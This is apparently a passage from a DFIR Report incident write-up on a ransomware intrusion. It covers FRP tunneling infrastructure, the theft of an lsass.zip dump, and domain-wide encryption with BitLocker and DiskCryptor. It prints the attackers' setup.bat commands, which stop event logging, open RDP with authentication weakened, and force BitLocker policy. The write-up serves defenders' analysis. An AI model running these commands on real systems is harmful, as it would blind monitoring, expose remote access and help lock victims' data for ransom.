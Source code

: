 [![Plink](https://thedfirreport.com/wp-content/uploads/2021/11/06cd805e9bdccced882075d49cfc8e6a51282897d54961934769e47c7515e417.png "enter image title here")](https://thedfirreport.com/wp-content/uploads/2021/11/06cd805e9bdccced882075d49cfc8e6a51282897d54961934769e47c7515e417.png)


Looking at this [IP address on VirusTotal](https://www.virustotal.com/gui/ip-address/148.251.71.182/relations), we can observe that all “Communicating Files” related to it trigger FRP AV Signatures or Yara rules:  

[![VT Relations](https://thedfirreport.com/wp-content/uploads/2021/11/361b17b00609f43da0447cf3ea3d08098556075e4a0a8d9710a01bb31f3ae9e8.png "enter image title here")](https://thedfirreport.com/wp-content/uploads/2021/11/361b17b00609f43da0447cf3ea3d08098556075e4a0a8d9710a01bb31f3ae9e8.png)  

We can conclude that those threat actors are used to this protocol tunneling technique.


### Exfiltration


Except lsass.zip, no data exfiltration or staging have been observed during this intrusion.


### Impact


In this intrusion the threat actors used [BitLocker](https://docs.microsoft.com/en-us/windows/security/information-protection/bitlocker/bitlocker-overview) and an open source encrypter, [DiskCryptor,](https://github.com/DavidXanatos/DiskCryptor) in order to encrypt systems domain wide. On servers a batch script named setup.bat was used and on workstations the GUI application named dcrypt.exe([DiskCryptor](https://github.com/DavidXanatos/DiskCryptor)) was executed instead. Both were executed via the threat actors after RDP login to each host.


[![](https://thedfirreport.com/wp-content/uploads/2021/11/BitLocker-and-DiskCryptor-Ransom-Execution.png)](https://thedfirreport.com/wp-content/uploads/2021/11/BitLocker-and-DiskCryptor-Ransom-Execution.png)


On servers they copied over a file named setup.bat.


[![](https://thedfirreport.com/wp-content/uploads/2021/11/6898-1.png)](https://thedfirreport.com/wp-content/uploads/2021/11/6898-1.png)


They then manually executed the script which disables the event log service, enables BitLocker (and RDP), prepares system drive using BdeHdCfg (a BitLocker drive encryption preparation tool), restarts the system, and deletes itself.


[![](https://thedfirreport.com/wp-content/uploads/2021/11/6898-2.png)](https://thedfirreport.com/wp-content/uploads/2021/11/6898-2.png)


Below are the commands executed by the script:



```
net  stop eventlog /y
sc config TermService start= auto
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v TSEnabled /t REG\_DWORD /d 1 /f
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG\_DWORD /d 0 /f
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG\_DWORD /d 0 /f
netsh advfirewall firewall add rule name="Terminal Server" dir=in action=allow protocol=TCP localport=3389
net start TermService
REG ADD HKLM\SOFTWARE\Policies\Microsoft\FVE /v EnableBDEWithNoTPM /t REG\_DWORD /d 1 /f
REG ADD HKLM\SOFTWARE\Policies\Microsoft\FVE /v UseAdvancedStartup /t REG\_DWORD /d 1 /f
REG ADD HKLM\SOFTWARE\Policies\Microsoft\FVE /v UseTPM /t REG\_DWORD /d 2 /f
REG ADD HKLM\SOFTWARE\Policies\Microsoft\FVE /v UseTPMKey /t REG\_DWORD /d 2 /f
REG ADD HKLM\SOFTWARE\Policies\Microsoft\FVE /v UseTPMKeyPIN /t REG\_DWORD /d 2 /f
```